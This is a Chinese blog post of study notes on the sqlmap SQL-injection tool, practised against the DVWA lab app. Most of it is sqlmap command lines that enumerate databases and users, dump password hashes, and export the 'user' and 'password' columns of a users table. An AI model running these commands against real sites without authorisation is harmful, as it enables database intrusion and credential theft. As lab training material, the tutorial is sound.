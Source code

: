 ```yaml
---
layout: post
title:  "渗透工具之sqlmap!"
date:   2017-09-01 09:03:26 +0800
author:     "陈杨"
header-img: "img/post-bg-2015.jpg"
categories: jekyll update
catalog: true
tags:
    - 学习
---
```


> “Yeah It's on. ”


## 渗透工具之sqlmap！

突然发现慕课上有渗透工具sqlmap的使用，花了两天学习，现在讲知识总结下来，以便于以后查阅。

sqlmap是一款非常强大的开源sql自动化注入工具，可以用来检测和利用sql注入漏洞。它由Python语言开发而成，因此运行需要安装python环境。

### 环境
{% highlight ruby %}
python2.7.1.3 + sqlmap + DVWA
{% endhighlight %}

### 检查注入点是否可用
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch
{% endhighlight %}

如果不知道用户不知道是否输入y or n - -batch会自动输入

![Alt text](/img/ArticleImg1/1.PNG)


返回结果是：
{% highlight ruby %}
Apache2.4.9 php5.5.12 DBMS=mysql
{% endhighlight %}

### 暴库
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch --dbs
{% endhighlight %}

![Alt text](/img/ArticleImg1/3.PNG)

### 当前数据库
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch --current-db
{% endhighlight %}

![Alt text](/img/ArticleImg1/4.PNG)

### 当前账户
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch --current-user
{% endhighlight %}

![Alt text](/img/ArticleImg1/5.PNG)

### 列出所有用户
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch --users
{% endhighlight %}

![Alt text](/img/ArticleImg1/6.PNG)

### 列出所有账户与密码
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch --password
{% endhighlight %}

![Alt text](/img/ArticleImg1/7.PNG)

### 列出当前数据库中的数据表
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch -D test --tables
{% endhighlight %}

![Alt text](/img/ArticleImg1/8.PNG)

### 列出表中的字段
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch -D test -T users --columns
{% endhighlight %}

![Alt text](/img/ArticleImg1/9.PNG)

### 暴出字段的内容
{% highlight ruby %}
sqlmap.py -u "被sql注入的点" --cookie="登录时的cookie值" --batch -D test -T users -C "user,password" --dump
{% endhighlight %}

dump:将结果导出

ps:如果结果太多，可以使用- -start 1 - -stop 10的方法指出导出数据的数据量


![Alt text](/img/ArticleImg1/10.PNG)





